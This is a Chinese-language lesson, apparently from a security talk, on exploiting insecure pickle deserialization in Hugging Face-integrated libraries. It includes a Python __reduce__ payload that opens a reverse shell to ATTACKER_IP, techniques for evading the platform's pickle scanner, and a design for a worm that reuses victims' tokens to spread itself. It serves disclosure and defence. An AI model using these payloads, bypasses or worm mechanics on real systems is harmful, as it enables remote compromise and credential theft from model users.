





# 027：如何让Hugging Face拥抱蠕虫——发现并利用不安全的Pickle反序列化

在本节课中，我们将学习Hugging Face平台上与AI模型安全相关的一个关键风险：不安全的Pickle反序列化。我们将探讨其背景、发现方法、利用手段，以及如何绕过平台现有的安全扫描机制。最后，我们将通过实际案例演示攻击链，并了解如何将其演变为可传播的“蠕虫”。

## 概述：Hugging Face Hub与Pickle模型

Hugging Face是目前最大的预训练大模型中心。作为一个开放平台，它集成了大量第三方机器学习库。用户可以通过网站、API或命令行与平台交互，上传和下载模型。

模型在分享时需要序列化格式。Pickle是Python的一种序列化格式，但它存在已知的安全风险。Hugging Face虽然推荐使用安全格式，但仍支持Pickle，并且许多第三方库直接使用了原生的`pickle.load`。

## Pickle反序列化的工作原理与风险

上一节我们介绍了Hugging Face平台的基本情况，本节中我们来看看Pickle格式为何危险。

Pickle可以将Python对象转换为字节流，以便传输或存储。反序列化时，字节流会被解析为Pickle操作码（opcode），并在栈上重建为Python对象。

问题的核心在于，反序列化过程会使用用户提供的字符串作为函数名来执行代码。这可能导致任意代码执行。具体来说，在Python的C源码中，有两个公开的利用点：
*   `__reduce__`
*   `__setstate__`

其风险可以概括为：**反序列化过程将用户控制的字符串作为函数名调用**。

PyTorch框架的`torch.load`内部就使用了`pickle.load`。虽然PyTorch后来通过引入**安全模型白名单**进行了修补，但问题并未在Hugging Face上终结。许多集成进来的第三方库并未遵循安全实践，仍然使用原生的、不安全的`pickle.load`。

## 如何发现不安全的Pickle加载点

了解了风险原理后，我们来看看如何在实际的代码中发现这些漏洞。

首先，定义“不安全的Pickle加载点”：当`pickle.load`函数的参数（通常是文件路径或数据）**处于用户或攻击者的控制之下**时，该加载点就是不安全的。

然而，并非所有不安全的加载点都能通过Hugging Face平台被利用。可被利用的关键在于，受害者是否遵循了Hugging Face的官方指南来获取模型。主要有两个入口点：
1.  **官方演示代码**：Hugging Face为每个模型库提供了示例代码，初学者会直接复制运行。
2.  **官方文档中的命令行指南**：指导用户使用特定库的命令行工具下载模型。

以下是发现漏洞的步骤：
1.  使用`grep`等工具在第三方库源码中搜索`pickle.load`。
2.  判断该函数的输入是否来自用户可控的源（如文件、网络）。
3.  追踪代码路径，确认是否从“预训练模型加载函数”一路传递到`pickle.load`。

根据调查，在集成的133个第三方库中，发现了来自15个库的158个不安全Pickle加载点，并确认其中6个可被利用。

## 威胁模型与简单利用

在深入利用技巧前，我们需要明确攻击场景。

*   **攻击者**：普通的Hugging Face用户，可以注册账号并上传模型。
*   **受害者**：其他Hugging Face用户，遵循官方指南下载并运行攻击者上传的恶意模型。
*   **攻击流程**：攻击者在恶意模型中嵌入特制的Pickle文件。当受害者使用`from_pretrained`等方法下载并加载该模型时，恶意代码即被执行。

一个简单的反向Shell利用代码如下（示例）：
```python
import pickle
import os
class Exploit:
    def __reduce__(self):
        return (os.system, ('bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1',))
payload = pickle.dumps(Exploit())
```
但Hugging Face部署了Pickle安全扫描，这种简单载荷会被检测并标记为红色警告。

## 绕过Hugging Face的Pickle扫描

既然平台有防护，本节我们就来看看如何绕过它。

首先需要了解扫描机制。扫描器维护了三个列表：
*   **白名单**：安全函数，无警告。
*   **黑名单**：危险函数，触发红色安全警告。
*   **橙名单**：可疑函数，模型名显示为橙色，但**不触发安全警告**。

橙名单是绕过的关键。以下是几种绕过技巧：

**1. 代码复用（Code Reuse）**
利用橙名单中的函数。例如，如果发现某个`from_pretrained`函数本身可利用，就在Pickle载荷中序列化这个函数调用，让它去下载并加载另一个包含黑名单函数的后端模型。

**2. 配置滥用（Config Abuse）**
在某些库（如transformers）中，模型配置文件（`config.json`）可以指定从其他仓库下载模型。攻击者可以在前端仓库放置一个“干净”的配置，将下载重定向到包含恶意载荷的后端仓库。

**3. 格式隐藏（Format Obfuscation）**
有些库开发者会用Base64编码Pickle字节流。扫描器可能只将其识别为Base64文本而非Pickle文件，从而绕过检测。

**4. 长文件名（Long Filename）**
这是一个平台实现错误。如果Pickle文件名非常长，扫描器可能无法正确识别其为Pickle文件。

## 制作可蠕虫化的攻击载荷

绕过扫描实现RCE已经很危险，但我们可以更进一步。

如果RCE可以执行任意命令，那就能运行Hugging Face命令行工具。攻击者可以制作一个载荷，在受害者机器上执行后，自动使用受害者的Hugging Face账户凭证，将恶意模型上传到受害者的个人仓库中。



这样，最初的恶意仓库就感染了第一个受害者。当第二个受害者下载第一个受害者仓库中的模型时，又会被感染并继续传播。这就形成了“蠕虫”。

蠕虫化的关键点：
*   **仓库名**：所有受害者使用相同的仓库名进行传播。
*   **缓存路径**：利用Hugging Face默认的缓存目录定位凭证。
*   **用户令牌**：使用`*`通配符匹配任意用户名下的令牌文件。
*   **静默感染**：整个过程对受害者无感知。

## 案例研究与演示

最后，我们通过三个真实案例来串联以上知识点。

**案例一：Retrieval模型（Transformers库）**
*   **利用点**：`retriever`模型的加载流程。
*   **绕过技巧**：使用了“配置滥用”和“长文件名”两种方式。
*   **蠕虫化**：载荷会创建本地文件（`hacked`、`hack2`）并尝试将恶意模型上传至受害者账户。







**案例二：Paal NLP模型**
*   **利用点**：该库自定义的加载函数。
*   **绕过技巧**：使用了“代码复用”，在Pickle载荷中调用橙名单函数作为gadget，避免直接使用黑名单函数。

**案例三：Stable-Baselines3库**
*   **利用点**：模型加载函数。
*   **绕过技巧**：使用了“格式隐藏”，将Pickle载荷进行Base64编码。



## 总结与建议

本节课中，我们一起学习了Hugging Face平台上由不安全Pickle反序列化引发的安全威胁。我们从背景知识出发，探讨了漏洞的发现方法、利用手段，以及如何绕过平台的安全扫描。最后，我们还看到了如何将单次攻击升级为可自我传播的蠕虫。

这个安全问题涉及多方：
*   **Hugging Face平台**：需要实施更严格的保护措施，如强制安全格式、增强扫描器。
*   **第三方库维护者**：应避免使用不安全的`pickle.load`，转向`torch.load`或其他安全序列化格式。
*   **终端用户**：不能盲目信任平台上的模型，需要提高安全意识，并使用额外的安全工具进行检查。

信任不足以构成安全的基础，主动的防护和审慎的态度至关重要。